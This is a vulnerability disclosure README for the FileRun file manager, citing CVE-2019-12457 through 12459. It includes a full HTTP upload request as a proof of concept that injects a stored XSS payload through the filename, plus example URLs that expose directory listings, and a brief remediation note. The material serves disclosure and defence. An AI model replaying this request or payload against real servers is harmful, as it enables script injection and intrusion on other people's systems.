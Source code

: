# FileRun Vulnerabilities and Exploits
[FileRun](https://filerun.com) application has many vulnerabilities.

## CVE-2019-12457 - CVE-2019-12458 - CVE-2019-12459 - CVE-2019-XXXXX

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12457

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12458

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12459

### PoC - XSS
```
POST /filerun/?module=fileman&section=do&page=up HTTP/1.1
Host: 172.16.191.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.191.129/filerun/
Content-Type: multipart/form-data; boundary=---------------------------142096305821079611661465592403
Content-Length: 6034
DNT: 1
Connection: close
Cookie: FileRunSID=aqlneuv86ccj3pi4h476faopi5

-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowTotalSize"

5100
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsFirstChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsLastChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowFilename"

â><img src=x onerror=prompt(document.domain)>.jpg
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="path"

/ROOT/HOME
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="file"; filename="â><img src=x onerror=prompt(document.domain)>.jpg"
Content-Type: image/jpg

<%@ I said you should learn! %>


-----------------------------142096305821079611661465592403--
```

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-02.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-03.png)

### PoC - Directory Listing
```
http://[server]/filerun/images/extjs/
http://[server]/filerun/css/ext-ux/
http://[server]/filerun/customizables/plugins/audio_player/
```
![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-1.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-2.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-3.png)

## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
